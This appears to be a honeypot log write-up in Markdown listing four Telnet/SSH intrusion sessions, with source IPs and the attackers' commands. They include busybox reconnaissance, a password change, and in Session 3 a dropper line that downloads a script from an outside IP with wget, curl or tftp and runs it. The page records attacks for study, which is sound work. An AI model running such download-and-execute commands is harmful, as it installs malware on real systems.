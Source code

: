 # Interesting Sessions

## Session 1: `9a50cd5862c8`
- **source IP**: 113.26.87.239
- **source Port**: 41470
- **protocol**: Telnet
- **port**: 2223
- **timestamp**: 2024-03-06 22:35
- **duration**: 2 sec

cnf (command not found)
### Commands Executed:
```cmd
enable
system(cnf) 
shell(cnf)
sh
cat /proc/mounts; /bin/busybox LSMRW
tftp; wget; /bin/busybox LSMRW
cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox LSMRW
dd bs=52 count=1 if=.s || cat .s || while read i; do echo $i; done < .s<<while read i
/bin/busybox LSMRW<<rm .s; exit
```

## Session 2: `87a6c8f2c579`
- **src_ip**: 123.173.70.38
- **src_port**: 54037
- **telnet**: 2223
- **time**: 2024-03-07 05:57:37
- **duration**: 3 sec
  
### Commands Executed:
```cmd
enable
system(cnf)
shell(cnf)
sh
cat /proc/mounts; /bin/busybox VSHRM
cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox VSHRM
tftp; wget; /bin/busybox VSHRM
dd bs=52 count=1 if=.s || cat .s || while read i; do echo $i; done < .s
/bin/busybox VSHRM
rm .s; exit
```

## Session 3: `103b371dd226` 
- **src_ip**: 185.191.126.213
- **src_port**: 59572
- **ssh**: 2222
- **time**: 2024-03-11 15:13:50
- **duration**: 47 sec

### Commands Executed:
```cmd
enable
system(cnf)
shell(cnf)
sh
linuxshell(cnf)
cd /tmp/; echo "senpai" > rootsenpai; cat rootsenpai; rm -rf rootsenpai
rm -rf sh; wget http://185.191.124.171/scripts/sh || curl -O http://185.191.124.171/scripts/sh || tftp 185.191.124.171 -c get sh || tftp -g -r sh 185.191.124.171; chmod 777 sh;./sh ssh; rm -rf sh
```

## Session 4: `c0f3406878dc`
- **src_ip**: 91.245.156.104
- **src_port**: 1506
- **telnet**: 2223
- **time**: 2024-03-04 03:51:20
- **duration**: 10 sec

### Commands Executed:
```cmd
start(cnf)
config terminal(cnf)
enable
system(cnf)
linuxshell(cnf)
shell(cnf)
sh
echo -e '\x69\x6D\x66\x75\x6F'
#cowrie.command.success message INPUT (passwd): adminpass
passwd
#cowrie.command.success message INPUT (passwd): adminpass
cat /bin/ls|more (cnf)
cd /tmp || cd /var || cd /dev || cd /etc
cat /bin/ls|head -n 1
```
